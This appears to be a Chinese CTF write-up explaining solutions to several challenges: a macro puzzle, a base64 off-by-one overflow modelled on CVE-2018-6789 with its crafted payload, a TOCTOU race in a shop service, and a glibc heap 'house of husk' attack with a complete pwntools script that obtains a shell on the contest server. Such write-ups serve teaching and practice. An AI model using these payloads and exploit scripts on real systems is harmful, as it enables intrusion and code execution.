






<style>
img {
    max-height: 30em;
    max-width: 80%;
    box-shadow: 0 1px 0.5em rgba(0, 0, 0, .25);
}
body {
    background-color: #f3f3f3;
}
#write {
    max-width: 900px !important;
    box-shadow: 0 0 2em rgba(0, 0, 0, .15);
    background-color: white;
}
#write p {
    margin: 1em 0;
}
</style>

## 主的替代品

输出 main 字符串很简单（比如分段输出），此题重点是如何声明 main 函数。

预期方法是用宏，可以用两个井号 (##) 连接字符，或者用反斜杠 (\\) 连接两行。

一个可能的答案：
```c
#include <stdio.h>
#define MAIN m ## a ## i ## n
int MAIN()
{
    printf("ma%cn\n", 'i');
    return 0;
}
```


## 皮浪的解码器

本题改编自 CVE-2018-6789，大幅降低了漏洞利用难度。

漏洞在 `b64decode` 函数检查缓冲区长度时的计算错误。



当 `code_len=935` 时，可以通过一开始的检查。准确地说，当输入长度为 $4n+3$ 时，函数检查输出长度为 $3n+1$，却实际上会向缓冲区写入 $3n+2$ 个字节。
当 $n=233$ 时，`dec` 会溢出一个字节到 `declen` 变量，可以把 `declen` 篡改成一个较大的值，进而在输出 decode 结果的时候把 `flag` 也输出出来。

一个可能的答案：
```
YWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYf8
```

## 弗拉梅尔的宝石商店

可以从 `service.cpython-38.pyc` 文件逆向得到 `service.py` 源代码。
一个常用的pyc逆向工具是 [decompile3](https://github.com/rocky/python-decompile3)。
反编译时可能会遇到报错，是因为逆向工具存在 bug （或者尚不支持的字节码），比如 except 语句块里写 return 就会报错。
其实报错的地方并不影响程序总体逻辑（其实是出题人故意挖的坑），只看能反编译出来的部分就足够做题了。

要买flag有两个困难：(1) 钱不够，(2) flag是非卖品。

关于如何赚钱，可以发现直接卖出物品是打9折的，因此没法倒手赚钱。
但卖出物品时却可以超额卖出，比如只有一个 `jade`，却写了两行 `jade -1`。
因为卖出时是先交钱再交货，第二件物品在交货时才会报错，而钱却已经到帐，空手套白狼。



注意到一次交易过程中，交易文件被读取了两次，第一次是检查合法性，第二次是实施交易。
如果在两次访问中间，文件被修改了，就可以绕过合法性检测。
这种 bug 叫做 TOCTOU (time of check to time of use)。
我们可以在 confirm 的时候发起新连接，就会再次写入同一个 `/tmp/token.txt` 文件，覆盖文件内容，绕过 flag 检查。



PS：本题有彩蛋，你发现了吗？


## 庄子的回文

漏洞位于 `0x4011e9` 处，`scanf("%s")` 栈溢出。
这是典型的 ROP（return-oriented programming）。
我们采用 ret2libc 方式解决。

见 xmcp 的验题 writeup，很详细。


##  ←签退→ 

赞助商的题好难，试着做了一下。我在知道答案的前提下，还是能做出来的。。。

堆内存 UAF (use after free) 漏洞很明显，但 exploit 很困难。
此题需要深入理解 libc 的堆内存申请释放机制，可以从 [CTF Wiki](https://ctf-wiki.org/pwn/linux/glibc-heap/introduction/) 学习。

预期解法是 [house of husk](https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507)。顺便吐槽一下，好多堆利用方法都叫 house of XXX。

`printf` 函数有个很小众的功能 `register_printf_function`，可以自定义的格式化字符串（比如可以自己实现一个 `%s` 格式）。
经过艰苦的 `printf` 源码阅读，可以发现使用该功能的有两个条件，一是 `__printf_function_table` 变量不为 0，二是 `__printf_arginfo_table` 变量不为 0 且对应表项为自定义的格式化函数。假如我们篡改了 `__printf_arginfo_table['s']`，在 `printf` 遇到 `%s` 时，就会调用 `__printf_arginfo_table['s']` 所指向的函数。

首先，我们用 [unsorted bin attack](https://ctf-wiki.org/pwn/linux/glibc-heap/unsorted_bin_attack/)，利用堆内存 UAF 把任意内存地址改写成一个较大的数值。我们要改的内存是 `global_max_fast` 变量，它表示可以放入 fastbin 的堆块的最大大小。



当我们 `free` 一个比 `global_max_fast` 更小的堆块的时候，Glibc 就根据这个堆块的大小，把它放到 fastbin 对应的列表里。
一旦把 `global_max_fast` 篡改成较大数值，在 `free` 一个大堆块时就会造成 fastbin 越界写。
因此我们可以在申请堆块时，控制堆块的大小，让它释放的时候，恰好写入到 `__printf_function_table` 和 `__printf_arginfo_table` 的位置，就可以让这俩变量指向我们的堆块。



最后，只需要事先在 `__printf_arginfo_table` 的堆块的 `s` 表项写入 one gadget 地址，就可以在 `printf %s` 的时候获得 shell 了。



exploit 脚本如下：

```python
from pwn import *
import struct
import os

context.log_level = "debug"

def offset2size(x):
    return x * 2 - 0x10

MAIN_ARENA       = 0x3ebc40
MAIN_ARENA_DELTA = 0x60
GLOBAL_MAX_FAST  = 0x3ed940
PRINTF_FUNCTABLE = 0x3f0658
PRINTF_ARGINFO   = 0x3ec870
#ONE_GADGET       = 0x10a38c
ONE_GADGET = 0x4f3c2

r = remote("prob07.geekgame.pku.edu.cn",10007)
r.recvuntil("token")
r.sendline(my_token)

r.recvuntil("size?")
r.sendline(str(offset2size(PRINTF_ARGINFO - MAIN_ARENA)))
r.recvuntil("size?")
r.sendline(str(offset2size(PRINTF_FUNCTABLE - MAIN_ARENA)))
r.recvuntil("rename")
r.sendline("y")
r.recvuntil("is:")
arena_addr = r.recvuntil(',',drop=True).ljust(8, b'\x00')
arena_addr = struct.unpack('<Q', arena_addr)[0]
print("arena:", hex(arena_addr))
libc_base = arena_addr - MAIN_ARENA - MAIN_ARENA_DELTA
print("libc_base:", hex(libc_base))

r.sendline(p64(arena_addr) + p64(libc_base + GLOBAL_MAX_FAST - 0x10))

r.recvuntil("bigger)")
r.sendline("1")
r.recvuntil("edit,")
r.recvline()
r.recvline()
r.recvline()
r.sendline(b'a'*((ord('s')-2)*8) + p64(libc_base + ONE_GADGET))

r.interactive()
```